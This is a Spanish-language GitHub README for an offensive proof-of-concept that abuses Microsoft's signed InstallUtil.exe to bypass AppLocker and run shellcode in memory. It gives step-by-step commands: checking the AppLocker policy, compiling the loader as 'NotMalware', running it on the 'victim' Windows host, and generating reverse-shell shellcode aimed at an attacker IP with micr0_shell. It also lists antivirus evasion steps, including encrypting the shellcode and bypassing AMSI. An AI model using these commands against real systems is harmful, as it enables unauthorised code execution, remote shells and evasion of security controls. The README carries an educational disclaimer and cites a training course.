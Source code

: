 
# 🚀 InstallUtil Shellcode Loader (.NET LOLBAS)

Este proyecto es una prueba de concepto que demuestra cómo abusar del binario legítimo `InstallUtil.exe` para ejecutar código arbitrario en memoria (shellcode), incluso en entornos restringidos con AppLocker habilitado. Utiliza técnicas **LOLBAS (Living Off the Land Binaries and Scripts)** para evadir controles de seguridad.

---

## 📌 ¿Qué es InstallUtil?

`InstallUtil.exe` es una herramienta legítima de Microsoft que se usa para registrar y desinstalar servicios. Se encuentra en:

- **32-bit:** `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe`
- **64-bit:** `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe`

Debido a que está firmada por Microsoft y ubicada en `C:\Windows`, AppLocker suele permitirla bajo sus reglas predeterminadas.

---

## ⚙️ Funcionamiento

Este proyecto define una clase `Installer` personalizada que sobrescribe el método `Uninstall()`. Al ejecutar `InstallUtil.exe /u`, se invoca ese método y se carga un payload (`micr0_shell`) en memoria utilizando llamadas directas a la API de Windows:

- `VirtualAlloc` – reserva memoria RWX
- `Marshal.Copy` – copia el shellcode en esa memoria
- `CreateThread` – ejecuta el shellcode
- `WaitForSingleObject` – espera a que termine

---

## ✅ Validar que AppLocker lo permite

Antes de ejecutar el ataque, asegúrate de que `InstallUtil.exe` está **permitido** por la política efectiva de AppLocker:

```powershell
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe"
```

Si ves:

```
PolicyDecision     MatchingRule
--------------     -------------
Allowed            All files located in the Windows folder
```

✅ ¡Puedes proceder! AppLocker permite el binario y tu bypass funcionará.

---

## 💻 Requisitos

- Sistema de destino: **Windows x64**
- Shellcode compatible con **x64**
- Acceso para ejecutar `InstallUtil.exe` (requiere permisos elevados)
- Mono (para compilar desde Linux)

---

## 🛠️ Compilación (en Linux con Mono)

```bash
sudo apt install mono-complete
mcs -target:library -platform:x64 -r:System.Configuration.Install.dll -out:NotMalware.exe NotMalware.cs
```

---

## 🚀 Ejecución (en Windows víctima)

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Path\NotMalware_IU.dll
```

> El método `Uninstall()` será invocado automáticamente y ejecutará el shellcode en memoria.

---

## 🧨 Generar shellcode

Puedes usar `micr0_shell` para generar shellcode crudo en formato C# (byte array):
git clone https://github.com/senzee1984/micr0_shell

pip install keystone-engine

USO:
python3 'micr0 shell.py' --ip 192.168.1.45 --port 443 --type cmd --language c --variable shellcode --execution false --save True --output buf.bin

Pega el contenido directamente dentro del `byte[] shellcode` en el archivo `.cs`.

---

## 🔐 Evasión adicional (opcional)

Para evitar detección por AV:

- Cifra el shellcode con XOR o AES
- Realiza la decodificación en tiempo de ejecución
- Cambia nombres de clases y métodos
- Aplica AMSI Bypass antes de la carga del shellcode

---

## 🧪 Estructura del repositorio

```
.
├── NotMalware_IU.cs         # Código fuente del loader
└── README.md                # Este archivo
```

---

## ⚠️ Disclaimer

Este código es **únicamente para fines educativos y de investigación**. El uso no autorizado de estas técnicas puede violar leyes locales o internacionales. El autor no se hace responsable del mal uso de esta herramienta. **Úsalo solo en entornos controlados y con permiso explícito.**

---

## 🔗 Referencias

- [LOLBAS Project](https://lolbas-project.github.io/)
- [Microsoft Docs - InstallUtil.exe](https://learn.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool)
- [HTB Academy – Windows Evasion Techniques](https://academy.hackthebox.com/module/254/section/2833/)
```


